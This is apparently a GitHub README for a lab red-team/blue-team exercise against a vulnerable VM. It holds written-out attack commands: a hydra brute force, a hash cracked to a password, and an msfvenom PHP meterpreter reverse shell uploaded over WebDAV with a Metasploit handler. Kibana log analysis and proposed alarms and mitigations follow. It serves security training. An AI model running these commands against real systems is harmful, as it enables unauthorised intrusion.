 # Red-Team-VS-Blue-Team-Project
Acted as a red team member to attack a vulnerable VM within my environment, ultimately gaining root access to the machine. Acted as Blue Team member to use Kibana to review logs taken during the attack implemented as the red team. Scenarios in which responsibilities of both a pentester and SOC analyst are used. 


 # Red Team
- `ifconfig` to find out network IP address and network range 

![ifconfig](https://user-images.githubusercontent.com/61332852/137389108-3288b38b-5fcd-497a-878f-206fe37f54f1.png)

- `netdiscover -r 192.168.1.255/16` Since we know the netmask is 255.255.255.0 that would be 16 bits of the subnet so then we can run the netdiscover command to discover other hosts on the network. 

![netdiscover](https://user-images.githubusercontent.com/61332852/137389276-f4aca53a-40ea-41ac-a4b7-9ab04459d79a.png)
    
    - After running the command we can conclude that there are 3 hosts within the network with the IPs of `192.168.1.1 , 192.168.1.100 and 192.168.1.105.`
     - Now we need to discover what machine we need to get access to 
- After checking up on the IPs we can conclude that `192.168.1.105` ended up being a web server.   
- After checking the website we see open directories that show company information showing that this is a vulnerability in itself.

 ![index](https://user-images.githubusercontent.com/61332852/137389410-4a1dec9f-30c7-4052-9a34-50fb89184500.png)

- And while exploring through the files we see an important directory being mentioned by the name of a `secret_folder`. Which can end up containing PII or important company documents. 
- After going in the URL bar and typing in the secret folder found `192.168.1.105/company_folders/secret_folder` it then shows a login prompt meant for “Ashton” only. 

    ![ashton](https://user-images.githubusercontent.com/61332852/137389749-5b0f9dec-6d97-4d29-af2c-81b454318207.png)

- After getting a username for a potential login we can then try to brute force the login by using `hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder` command. 

 
 ![f2ef2a23bee60b46f58307ca124d2678](https://user-images.githubusercontent.com/61332852/137389842-76fca522-77e3-4a9d-9dac-ca31b880ea3e.png)
   - After using the command we successfully brute force the account and was able to retrieve the login information for ashton 
   
   ![84d82a9a9e4648086a79b066c3362ec5](https://user-images.githubusercontent.com/61332852/137390073-bf6a0604-b024-4723-89a7-38e77bde1c13.png)

- Logging in the account then brings us to a personal note Ashton then made for himself containing other important information
 
 ![cc397b4dc2076647d79196d97e9632fe](https://user-images.githubusercontent.com/61332852/137390404-6b85bb05-ec5a-460e-a194-31611558d358.png) 
   - A note that hes going to be using Ryans account
   - After researching more on the web server we found that Ryan is the CEO of the company.
   - Hinting knowing that Ashton knows his login information with the hash giving at the top of the screen

- Next step is to figure out the login to the file directory `dav://192.168.1.105/webdav/` using the hashed password at the top of Ashtons note. Using the website https://crackstation.net/  
   - Cracking the hash we find the password is `linux4u`
     
     ![ac297f568253612ff55d38fdf157547b](https://user-images.githubusercontent.com/61332852/137390969-4da74fb4-9592-4fd2-9844-2e22bc2a5865.png)

- Getting the login information to the company directory we know can exploit getting into the company system since the server has an open port 80 by creating a reverse shell script. The command being `msf venom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > newshell.php`

 ![b5607ffdbb52b0186be7de39a308e88a](https://user-images.githubusercontent.com/61332852/137391072-15001d7a-24ad-431d-9b67-cf39a58c789e.png)

- Once the reverse shell script is created we can now upload it to the shared directory to run it.
  
  ![4acac4ed99b11426e3e93855ce8a74f8](https://user-images.githubusercontent.com/61332852/137391146-79ec5c42-adaf-45bb-bfe1-25fd537ddadc.png)

- Before we run it we will want to run Metasploit to listen to the reverse shell on our host machine to access it remotely.
- The commands would be used in this order to begin the listening 
   - `msfconsole -q`
   - `use exploit/multi/handler`
   - `Set payload php/meterpreter/reverse_tcp` 
      - (same payload script as the one we copied to the shared directory)
   - `Set LHOST 192.168.1.90`
      - Ip of machine we want to listen on 
   - `Set LPORT 4444`
      - Port we want to listen on
   - `Show options` 
      - To see if all the settings we had set are correct
   - `run`
      - To execute the listening process
 
  ![bc35031f4a1536c75c80faa31941456e](https://user-images.githubusercontent.com/61332852/137391217-c0c8f352-de04-4f7c-b3fb-5722b93771b1.png)


- Once this is completed we can now run the actual script through the shared directory `dav://192.168.1.105/webdav` which then after will then open up meterpreter on our host machine to show that we have now established connection 

![8316e2c4870b99011bd9c617fa3932fe](https://user-images.githubusercontent.com/61332852/137391273-63d35e21-d842-41fb-b658-6eb79a68052e.png)

   - After having the session open we can run basic commands to grab any other additional information about the system we got access to like `getuid`. We can also open up a shell terminal if needed by using the command `shell`.
- We can now run the command find -iname flag.txt to grab the flag we are looking for one the target machine.

 # Blue Team
- Analysis: Identifying the port scan
   - The port scan occurred on October 4th 2021 at 11:52PM
   - 254,496 packets were sent from the machine 192.168.1.90
   - Since there is such high network traffic when it should be idle it can be a sign of a port scan 
![85f85cd01314b79528146ba25e644eb1](https://user-images.githubusercontent.com/61332852/137392262-bab44589-0733-471d-a27c-2d3355f41d78.png)



- Analysis: Finding the Request for the hidden directory 
   - 19,227 requests were made to this URL path. This path was requested by the IP address of 192.168.1.90
   - The files that were requested had a hash that contained Ryan login credentials 
![c4273713c081053f537644eed454f141](https://user-images.githubusercontent.com/61332852/137392339-aba74b30-013d-4607-9dc1-e29d9dbfd67a.png)



- Analysis: uncovering the brute force attack
   - 19,227 requests was made during the brute force attack to access the secret folder directory
   - 16,101 requests were made before the password was used correctly
 ![e06114f629b2d5b8dd88724f3a6a59ac](https://user-images.githubusercontent.com/61332852/137392400-cc734f1b-c336-4f5a-9ec7-d629a092452f.png)


- Analysis: Finding the WebDAV Connection
   - 180,859 requests were made to this directory 
   - The files that were requested was the passwd file and also the php file used to initiate the reverse shell
![82ff51532e66b15c26075f0aa28127de](https://user-images.githubusercontent.com/61332852/137392456-7a4c8fc2-3a3e-4808-86be-c40ce0c5ca8f.png)


# Blue Team Proposed Alarms and Mitigation Strategies
`- Blocking the Port Scan`
  - Alarm
    - An alert to be sent to the team for a 1000+ port connections within a hour
  - System Hardening 
    - To run multiple port scans to see what ports are being opened and if any are being used maliciously
    - To make sure Firewall is up to date and to diminish any connections to the host

`- Finding the Request for the Hidden Directory`
  - Alarm
    - For an alert on the system to detect if certain files and directory within the system are being accessed without permission
    - If these private files and directories are trying to be accessed more than 3 times the alert would then be sent to the team
  - System Hardening
    - To encrypt sensitive data and for files to not be shared with users outside the company being in this situation.
    - To make a whitelist to people who can and cant use these files and directories

`- Mitigation: Preventing Brute Force Attacks`
  - Alarm
    - I would implement a failed login alert to show a certain amount of times the login has failed 
    - If the HTTP error code 401 is occurring multiple times an alert would be sent as well
    - If there is more than 5 failed login attempts the alarm would be triggered
  - System Hardening
    - a lock out after to many attempts of logging in to prevent a brute force attack like the one implemented
    - To require employees to have a complex password to mitigate the chances of getting a login attempt correctly

`- Mitigation: Detecting the WebDav Connection`
  - Alarm
    - An alert would be made to send the IP addresses trying to get access to webdav  
  - System Hardening
    - To whitelist certain IP addresses so only certain machines can access WebDav

`- Mitigation: Identifying Reverse shell Uploads`
  - Alarm
    - An alert can be shown when a file is being uploaded to the webdav folder and also the type of file being copied.
  - System Hardening
    - To mitigate the attack, permissions on the folder itself can be changed to read only so this prevents any malicious files being uploaded to the folder.
    - To whitelist IP addresses that can access the webdav folder 


